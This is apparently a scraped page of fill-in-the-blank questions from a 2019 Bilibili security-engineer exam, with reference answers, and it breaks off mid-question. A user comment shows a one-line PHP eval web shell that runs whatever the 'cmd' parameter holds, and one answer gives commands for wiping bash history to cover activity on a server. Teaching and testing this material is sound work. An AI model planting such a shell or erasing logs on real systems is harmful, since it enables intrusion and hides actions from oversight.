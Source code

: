 本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

讨论

[小狐狸 FM](https://www.nowcoder.com/profile/412253669)

```cpp
<?php 
$x=$_GET['cmd'];//使用 GET 的方式获取来自用户的输入参数 cmd
@eval("$x;");//调用 eval 函数执行变量 x 内的 php 代码
?>
```

发表于 2021-10-08 19:09:51

* * *

## 32

执行 命令可以清理自己在服务器上操作的指令历史记录。1

你的答案 (错误)

1 参考答案 (1) history -c, echo > ~/.bash_history 等都可以

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 33

aslr 是对抗 1 攻击的技术

你的答案 (错误)

1 参考答案 (1) 缓冲区溢出漏洞

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 34

当访问 web 网站某个资源不存在时，返回的 HTTP 状态码是 1

你的答案 (错误)

1 参考答案 (1) 404

本题知识点

Java 工程师 C++工程师 安卓工程师 iOS 工程师 运维工程师 前端工程师 算法工程师 PHP 工程师 测试工程师 哔哩哔哩 安全工程师 2019

## 35

 nmap 的参数设置 -sV 代表着 1
